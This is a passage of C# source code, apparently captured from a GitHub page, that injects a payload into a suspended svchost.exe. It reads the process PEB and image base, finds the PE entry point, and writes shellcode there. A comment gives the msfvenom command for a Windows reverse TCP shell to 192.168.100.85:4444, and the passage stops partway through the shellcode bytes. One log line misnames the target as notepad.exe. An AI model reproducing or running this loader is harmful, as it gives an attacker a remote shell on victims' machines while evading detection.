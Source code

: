 ```csharp
            PROCESS_INFORMATION pi;
            SECURITY_ATTRIBUTES sa = new SECURITY_ATTRIBUTES();

            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", ref sa, ref sa, false, 0x4, IntPtr.Zero, null, ref si, out pi);

            Console.WriteLine("[1] Created suspended 'notepad.exe' with ProcId " + pi.dwProcessId);

            // 2 -- Get the address of the Process Environment Block

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);


            Console.WriteLine("[2] PEB is at 0x{0}", bi.PebAddress.ToString("X"));

            // 3 -- Extract the Image Base Address from the PEB

            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

            Console.WriteLine("[3] Image Base Address is 0x{0}", svchostBase.ToString("X"));

            // 4 -- Read the PE structure to find the EntryPoint address

            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

            IntPtr entryPoint = IntPtr.Zero;
            Console.WriteLine("[4] Entry Point is 0x{0}", addressOfEntryPoint.ToString("X"));

            // 5 -- Write shellcode at EntryPoint

            // msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.100.85 -f csharp -v shellcode (ENCODED)
            byte[] buf = new byte[734] {0xfc,0x48,0x83,0xe4,0xf0,
                                            0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,
                                            0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,
                                            0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,
                                            0x0f,0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
                                            0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,
                                            0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,
                                            0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,
```